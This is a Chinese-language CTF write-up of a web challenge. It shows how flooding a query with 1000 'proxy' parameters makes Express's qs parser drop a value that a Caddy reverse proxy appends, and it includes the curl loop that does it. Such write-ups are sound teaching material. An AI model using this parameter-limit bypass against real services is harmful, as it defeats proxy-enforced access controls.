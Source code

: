 #Web #caddy #nodejs #express #qs 

碎碎念
---
这题是CrackTC的心理阴影qaq，~~抄袭自~~灵感来源于日本人主办的一个CTF（忘了名字）的签到题，算是第一次打正式比赛，然后因为这题爆零了wuwuwu

---

`Caddyfile`
---

```c
:80 {
    rewrite * {path}?{query}&proxy=caddy
    reverse_proxy 127.0.0.1:2333
}
```

这里是caddy作为反向代理服务器，把请求分发给2333端口之前在url的结尾加上了`proxy=caddy`

`index.js`
---

```js
require("express")()
    .get("/", (request, response) => {
        request.query.proxy.includes("caddy")
            ? response.status(400).send("I don't like caddy:(")
            : response.send(`\\/\\/\\/caddy wa saikou!\\/\\/\\/<br>${process.env.FLAG ?? "Spirit{fake-flag-qwq}"}`);
    })
    .listen(2333, "0.0.0.0")
```

这里是node作为后端服务器监听2333端口，如果url查询中的proxy参数包含caddy就无法获得flag

因为docker镜像只expose并映射了80端口~~（frp好像也只通了80端口）~~，所以想要直接访问2333端口是行不通的～

在这种情况下，最有可能取得突破的地方就是双方对数据的不同解读啦（利用数据一致性上的漏洞或许算是比较常见的思路）

我们尝试阅读express关于url query的[文档](https://expressjs.com/en/4x/api.html#req.query)

> The value of this property can be configured with the [query parser application setting](https://expressjs.com/en/4x/api.html#app.settings.table) to work how your application needs it. A very popular query string parser is the [`qs` module](https://www.npmjs.org/package/qs), and this is used by default.

[ljharb/qs](https://github.com/ljharb/qs)

在README中可以找到这样一段话

> The depth limit helps mitigate abuse when **qs** is used to parse user input, and it is recommended to keep it a reasonably small number.
> 
> For similar reasons, by default **qs** will only parse up to 1000 parameters.

默认情况下qs会限制1000个参数，多复制粘贴几遍就能把最后的caddy顶掉

也不能太长，不然也要罢工啦～

```shell
query='?proxy=none'

for i in {1..999}
do
    query=$query'&proxy=none'
done

curl 'http://<host>:<port>/'$query
```

![[Pasted image 20230509204553.png|800]]